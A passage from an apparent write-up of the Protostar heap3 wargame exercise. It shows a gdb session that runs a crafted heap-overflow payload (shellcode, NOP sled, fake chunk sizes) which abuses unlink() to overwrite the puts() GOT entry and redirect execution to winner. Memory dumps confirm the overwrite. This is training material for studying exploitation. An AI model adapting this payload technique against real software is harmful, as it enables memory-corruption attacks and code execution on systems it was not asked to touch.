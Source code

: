 If we set up a breakpoint in winner function, we can check that puts() GOT entry has been overwritten successfully:

```lang-bash line-numbers 
(gdb) b *winner
Breakpoint 1 at 0x8048864: file heap3/heap3.c, line 8.
(gdb) run `python -c 'print "\xeb\x0c" + "\x90"*18 + "\x68\x64\x88\x04\x08\xc3" + "A"*6 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff"'` `python -c 'print "BBBB"+"\x1c\xb1\x04\x08"+"\x08\xc0\x04\x08"'` CCCC
Starting program: /opt/protostar/bin/heap3 `python -c 'print "\xeb\x0c" + "\x90"*18 + "\x68\x64\x88\x04\x08\xc3" + "A"*6 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff"'` `python -c 'print "BBBB"+"\x1c\xb1\x04\x08"+"\x08\xc0\x04\x08"'` CCCC

Breakpoint 1, winner () at heap3/heap3.c:8
8	heap3/heap3.c: No such file or directory.
	in heap3/heap3.c
(gdb) x/x 0x0804b128
0x804b128 <_GLOBAL_OFFSET_TABLE_+64>:	0x0804c008
(gdb) x/20x 0x0804c008
0x804c008:	0x00000000	0x90909090	0x0804b11c	0x90909090
0x804c018:	0x90909090	0x04886468	0x4141c308	0xfffffff8
0x804c028:	0xfffffffc	0xfffffffc	0xfffffff9	0x0804b194
0x804c038:	0x0804b194	0x00000000	0x00000000	0x00000000
0x804c048:	0x00000000	0x00000000	0x00000000	0x00000fb1
```

We can also see that part of our NOP sled has been overwritten by **unlink()**

A great write up can be found [here](http://conceptofproof.wordpress.com/2013/11/19/protostar-heap3-walkthrough/)
